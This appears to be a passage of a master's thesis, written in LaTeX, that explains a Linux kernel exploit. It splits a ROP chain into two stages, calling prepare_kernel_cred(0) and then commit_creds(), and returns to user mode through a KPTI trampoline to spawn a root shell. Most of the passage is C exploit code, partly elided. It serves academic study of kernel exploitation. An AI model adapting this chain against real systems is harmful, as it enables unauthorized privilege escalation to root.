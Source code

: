 \documentclass{masterthesis}
\begin{document}
\subsection{Calling \texttt{commit\_creds(prepare\_kernel\_cred(0))}}
Since the number of gadgets is limited, it was impossible to find a ROP chain calling \texttt{commit_creds(prepare_kernel_cred(0))}.
The only solution is to divide the chain into two parts:
\begin{itemize}
  \item Call \texttt{prepare\_kernel\_cred(0)} function saving the return value in \texttt{RAX}.
   \item Call \texttt{commit\_creds()} function using the value we have in \texttt{RAX}.
\end{itemize}
This way we bypass a fairly difficult part of the ROP chain, move the value received from \texttt{prepare\_kernel\_cred(0)} from \texttt{RAX} to \texttt{RDI} and pass it to the \texttt{commit\_creds()} function.
\begin{lstlisting}
void stage_3(void){
    ...
    //As stage 1
    ...
    payload[off++] = pop_RDI_RBP_ret; // return address
    payload[off++] = 0; // RDI <- 0
    payload[off++] = 0; // dummy RBP
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    ...
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, RAX;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}

void stage_4(void){
    ...
    //As stage 3
    ...
    payload[off++] = returned_creds_struct; // RDI <- returned_creds_struct
    payload[off++] = 0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy RAX
    payload[off++] = 0x0; // dummy RDI
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));
}
\end{lstlisting} 
\end{document}
